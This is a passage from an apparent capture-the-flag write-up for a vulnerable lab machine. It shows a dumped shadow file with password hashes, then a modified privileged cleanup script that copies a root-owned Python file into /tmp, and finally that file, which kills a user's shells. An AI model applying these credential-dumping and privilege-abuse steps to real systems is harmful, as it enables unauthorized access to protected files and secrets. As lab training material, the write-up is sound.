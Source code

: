 ``` plain
list:*:16273:0:99999:7:::
irc:*:16273:0:99999:7:::
gnats:*:16273:0:99999:7:::
nobody:*:16273:0:99999:7:::
libuuid:!:16273:0:99999:7:::
syslog:*:16273:0:99999:7:::
messagebus:*:16291:0:99999:7:::
troll:$6$9WnrXzBm$ijsblc.QCK1kTlHCxiH5Dt3eUhZgEVaIpkIifyIx6EmPpD03xmIyPD6l/dVlUAE0Q4jGqaiusEkvb3BEDNcs6.:16292:0:99999:7:::
sshd:*:16291:0:99999:7:::
ftp:*:16292:0:99999:7:::
lololol:!:16292:0:99999:7:::
overflow:$6$RSQQWzPh$JB3Jm3liSEjq.ytLU2Hr.N6bTUEgkVtW5KSkCzVzvLf7zBT4eHuc0EUeEUPw3v5epKsZ9mLFfurV6gSUtpcZa.:16292:0:99999:7:::
ps-aux:$6$N8fO8B2w$ABHj.O2jTfIizBfrb0SpgN6VJLDujJ6o9wR4D0b4ZqqlfKQzW1M0xG0uTR4AZW77BFH0rsA2ZxnoGSMdwy3k00:16292:0:99999:7:::
maleus:$6$Y.Ev9AQx$IS.ikFcKj5.natBbOMMP3GiV9LJDjCQaHuvKoEeA1hPjhss8qLzjVPpuSnKysIF261sSnjOfoFjhpo.rO8qDg.:16292:0:99999:7:::
felux:$6$t0WWHdf0$9QYd6dc9XuZo.RwMRCdrzuTPTqaCJ47KAS7p1EitR2LVGJsOqjarTxD67WUhLQvmF3KOFIfgvN3rlw7cfU132.:16292:0:99999:7:::
Eagle11:$6$Pz9WUVEk$PPQQs334rlXCZRRY1w/uullgDaKeIMGNlzUXERsCl7zIrdulDtrcYD74t/mtw0yhqsJJQFXrZ08dpk0gEx0gX1:16292:0:99999:7:::
genphlux:$6$K2gip8vY$jcbwnoeCKqtu.9IkVbBNDJ3TAV0NcVSWgv2U3uYx1e942dcaD1NhxEpBklKAX1NnnrDCw6SU1Fw7vJ6tmOiCM/:16292:0:99999:7:::
usmc8892:$6$MlFBCUvT$YS7ZpyXavI6tGgYJW3fPFRbUlV2yhoHGir26minsRRBTTDf60NIwxi7PP3S8/vePYFBVVuSC0kfyBYeMnHnBO1:16292:0:99999:7:::
blawrg:$6$Pg7SOYWy$Ap9wmycvq0n2iR8CJNKcY/SBUrOqC4Dc8D6whHDnZNp8xqLCB/GF2Et4lHnhHehWkgObxSX5MZWofAc4QQSbj1:16292:0:99999:7:::
wytshadow:$6$Xw3TqkwY$O2Xx5JXO9DXSyqumRCBWa2fk0Z0glVUNty9nKkms4SlAKMtWwmHvNRHiIClPa4SGvCii0fCi5Xxg6gvoZrXhG0:16292:0:99999:7:::
vis1t0r:$6$nVShrZJb$ZAZ9nf4vzddUm1ISPO8gKgYweQopjc/Ta7jbEacYbDVOG1g8Y3LHwiJhU2NsDJljkn2Oc4xPJPeMpox5jSBHd0:16292:0:99999:7:::
```

But I am not a fan of cracking passwords, if it can be avoided. And in this case, we still have the other Python file to check. So I modified the cleaner code again:

``` python
with open('/opt/lmao.py', 'r') as lmao:
    lol = lmao.read()
with open('/tmp/lol.py', 'a') as rofl:
    rofl.write(lol)
```

And after a little bit of waiting, we finally have the culprit that is killing our shells:

``` plain
$ cat /tmp/lol.py
#!/usr/bin/env python
import os

os.system('echo "TIMES UP LOL!"|wall')
os.system("pkill -u 'overflow'")
sys.exit()
```
